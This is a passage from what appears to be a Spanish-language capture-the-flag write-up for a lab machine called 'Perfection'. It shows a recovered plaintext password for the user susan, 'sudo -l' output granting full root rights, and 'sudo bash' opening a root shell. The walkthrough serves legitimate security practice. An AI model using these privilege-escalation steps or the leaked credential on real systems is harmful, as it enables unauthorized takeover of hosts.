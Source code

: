 ~~~bash
Started: Fri Mar  8 17:40:06 2024
Stopped: Fri Mar  8 17:42:42 2024
~~~

- Y tenemos una credencial `susan_nasus_413759210`.

- Ahora podemos ver que somos capaces de ejecutar cualquier comando como root:

~~~bash
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
~~~

- Ejecutamos una bash y habríamos completado la máquina:

~~~bash
susan@perfection:~$ sudo bash
root@perfection:/home/susan# id
uid=0(root) gid=0(root) groups=0(root)
~~~
